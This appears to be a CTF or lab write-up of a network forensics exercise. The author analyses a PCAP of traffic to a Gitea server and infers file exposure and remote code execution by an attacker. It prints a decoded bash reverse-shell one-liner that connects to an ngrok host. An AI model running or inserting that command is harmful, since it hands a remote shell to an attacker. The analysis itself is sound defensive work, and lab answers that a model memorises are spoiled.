 # Analysis

Pretty nice description from our buddy John here 👍. Here is the initial map of the servers I've created.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1744230505867/536ccf1e-1fd7-41b3-aa2a-2e62bda38e6d.png align="center")

Quick PCAP statistics in Wireshark:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1744230579647/b9241516-4c46-47a9-b034-85e1805fccf7.png align="center")

We have some heavy TCP traffic, including TLS and SSH. Possible sensitive data exfiltration.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1744230670399/cd4812a8-5071-41ba-8d74-e6835fbed629.png align="center")

These are probably IPs of the servers (`10.*.*.*` private subnet). There is one another IP being a destination of a single packet.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1744230807615/b159385e-31d4-4e1d-82e0-c140b2dc2dd3.png align="center")

`*.*.*.255` is a broadcast IP and packet is a [HostAnnouncement Browser Frame](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-brws/10536677-8a14-4726-bc52-c0ef39cb7130). And it looks like we got a log from the Windows 10 Server (`10.128.0.3`)

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1744230915868/bcfd33ac-a431-400a-91d2-00c5faf90b3e.png align="center")

John’s credentials to the Gitea service.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1744231122008/0d32962a-318e-44aa-9df1-7c98ea35930f.png align="center")

In one of the first packages, we can see the version of Gitea used (`1.2.0`).

In packet 20213 suspicious response can be seen:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1744231211218/1babdc3e-34f4-477c-b6f1-da9966667617.png align="center")

Hmm, the whole traffic there looks suspicious.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1744231303611/2c479401-e221-426e-aa6e-1eaa83cf0be2.png align="center")

It seems like a threat actor uses some kind of vulnerability in Git or Gitea to expose the files on the server (like `cusdata.xlsx.enc`).

Another packet looks like an RCE.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1744231744039/0e3cd6cb-7863-40ff-87ed-1b9b9bc70abe.png align="center")

Decoded base64 (reverse shell): `bash -i >& /dev/tcp/`[`0.tcp.eu.ngrok.io/14509`](http://0.tcp.eu.ngrok.io/14509) `0>&1 &`

# Questions

## 01\. What's the private IP address of the Windows machine?
